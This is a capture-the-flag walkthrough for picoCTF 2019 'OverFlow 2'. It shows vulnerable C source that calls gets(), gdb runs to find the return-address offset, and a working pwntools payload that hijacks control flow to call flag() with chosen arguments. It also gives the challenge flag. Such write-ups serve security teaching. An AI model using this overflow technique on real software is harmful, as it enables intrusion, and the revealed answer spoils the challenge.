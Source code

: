 # OverFlow 2
250 points

### Description
*"Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc on the shell server. Source."*

### Solution
For this problem, I'm going to assume you know how function arguments, return address, etc., are layed out in the stack. If you aren't familiar with this, check out my walkthrough for [OverFlow 1](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%234%20-%20OverFlow%201.md). Here's the source code for the program associated with this problem:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

This problem is very similar to OverFlow 1, but this time the `flag` function has arguments. Remember, the stack for a function call looks like this:

![C generic function call stack layout.png](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/raw/C_generic_function_call_stack_layout.png)

Keep in mind, the "top" of the stack is the bottom of this picture. So, we will be able to overwrite the return address and the function arguments. We're going to use a trick with gdb to quickly figure out how many characters we need in order to overwrite the return address. We know we'll need at least 176 characters, since that's the size of `buf`. From there, we can just add characters in increments of 4 until we start overwriting the return address. I've spaced out these different attempts to make it more readable.
```bash
$ gdb vuln
(gdb) run <<< $(python -c "print('a'*(176+4))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+4))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[Inferior 1 (process 229061) exited normally]


(gdb) run <<< $(python -c "print('a'*(176+8))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+8))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x0804872a in main ()


(gdb) run <<< $(python -c "print('a'*(176+12))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+12))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGILL, Illegal instruction.
0x08048700 in main ()


(gdb) run <<< $(python -c "print('a'*(176+16))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+16))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

There we go. We started overwriting the return address exactly after the 12th extra character. So, we need 12 characters between `buf` and the return address. Let's get that return address:
```bash
(gdb) x flag
0x80485e6 <flag>:       0x53e58955
```

When `flag` is called, the process will expect a return address to be on the top of the stack, above (or below, depending how you look at it) the parameters for `flag`. Since this return won't be used until after the flag is printed out, we can just fill it with bogus characters.

Finally we have to put our parameters. We will use the `p32` function from [pwntools](http://docs.pwntools.com/en/latest/) to convert the parameters and the return address to the little-endian format that we need.
```
$ python -c "from pwn import *; print('a'*(176+12) + p32(0x080485e6) + 'aaaa' + p32(0xDEADBEEF) + p32(0xC0DED00D))" | ./vuln
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa���aaaaaaaaaaaaaaaaaaa�aaaaﾭ�
```

This will give you the flag!

<details>
  <summary>Flag:</summary>
  picoCTF{arg5_and_r3turn5e919413c}
</details>

[Next Problem](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%237%20-%20NewOverFlow-1.md)

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
